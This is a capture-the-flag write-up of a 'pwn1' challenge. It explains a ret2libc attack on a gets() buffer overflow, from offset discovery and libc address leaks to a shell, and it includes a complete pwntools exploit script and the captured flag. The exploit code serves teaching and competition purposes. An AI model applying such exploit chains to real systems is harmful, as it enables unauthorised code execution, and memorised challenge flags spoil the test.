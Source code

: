 # pwn1 Challenge Writeup

> **Category**: Pwn\
> **Author**: Stefan

## TL;DR
A relatively simple ret2libc.

---

## Challenge Description
Upon opening the challenge in Ghidra, we had a simple `gets()` and a `puts()` with user input. The goal was to leak the libc address and then use it to get a shell. The buffer was 128 characters long, and I encountered the first problem here:

<img src="https://i.imgur.com/1R2SXOz.png" alt="Writeup_image_1" width="500"/>

## Solution
### Step 1: Identifying the Correct Offset
I initially took the offset from RBP, but I should have looked at the disassembly and taken it from the return address instead. The correct offset was 136 for the RIP register, not 128 as it appeared with RBP.

> **Note**: The RSP register contained the same string as RIP because the main function ended with `leave ret` (function epilogue).

<img src="https://i.imgur.com/0lhtOWs.png" alt="Writeup_image_2" width="500"/>

### Step 2: Fixing the Leak
~~The second issue was that the leak only worked remotely when using `gets` (I'm not sure why).~~
~~As a result, I also had to change the calculation of `libc_base` to use `gets`.~~

<img src="https://i.imgur.com/sITr0BE.png" alt="Writeup_image_3" width="200"/>

The issue was the usage of `strip()`, which removed the last byte. Changing to `strip(b'\n')` fixed this.

### Step 3: Running the Exploit
With the final exploit file, I ran the solve script with the `r` argument and we got a shell.

<img src="https://i.imgur.com/lPsXMez.png" alt="Writeup_image_4" width="500"/>

## Exploit
```python
from pwn import *
import sys

binary = "./main"
remote_conn = "34.107.71.117 32222"
context.log_level = "critical"

if len(sys.argv) > 1 and sys.argv[1] == "l":
    r = process(binary)
    elf = context.binary = ELF(binary)
elif len(sys.argv) > 1 and sys.argv[1] == "r":
    r = remote(remote_conn.split(" ")[0], int(remote_conn.split(" ")[1]))
    elf = ELF(binary)
else:
    print("Usage: python " + sys.argv[0] + " [l|r]")
    sys.exit()

pop_rdi_ret = 0x00000000004011f3
ret = 0x000000000040101a

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.sym['main']

payload = b"A" * 136
payload += p64(ret)
payload += p64(pop_rdi_ret)
payload += p64(elf.got["puts"])
payload += p64(elf.plt["puts"])
payload += p64(elf.sym["main"])
r.sendline(payload)
r.recvline()
leak_puts = u64(r.recvline().strip(b'\n').ljust(8, b"\x00"))
print("leak puts: ", hex(leak_puts))

payload = b"A" * 136
payload += p64(ret)
payload += p64(pop_rdi_ret)
payload += p64(elf.got["gets"])
payload += p64(elf.plt["puts"])
payload += p64(elf.sym["main"])
r.sendline(payload)
r.recvline()
leak_gets = u64(r.recvline().strip(b'\n').ljust(8, b"\x00"))
print("leak gets: ", hex(leak_gets))

if(sys.argv[1] == 'l'):
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
    libc=ELF("./libctarget.so")

libc.address = leak_gets - libc.sym["gets"]
bin_sh = next(libc.search(b"/bin/sh"))
print("libc base: ", hex(libc.address))
print("/bin/sh: ", hex(bin_sh))
print("system: ", hex(libc.sym["system"]))
payload = b"A" * 136
payload += p64(ret)
payload += p64(pop_rdi_ret)
payload += p64(bin_sh)
payload += p64(libc.sym["system"])

if(sys.argv[1] == "l"):
    gdb.attach(r)

r.sendline(payload)
r.recvline()
r.interactive()
```
## Flag
`CTF{5d312f4b79a334445d084d7eec892bc0a3bec1454e585c4117310b9600e6c1f0}`
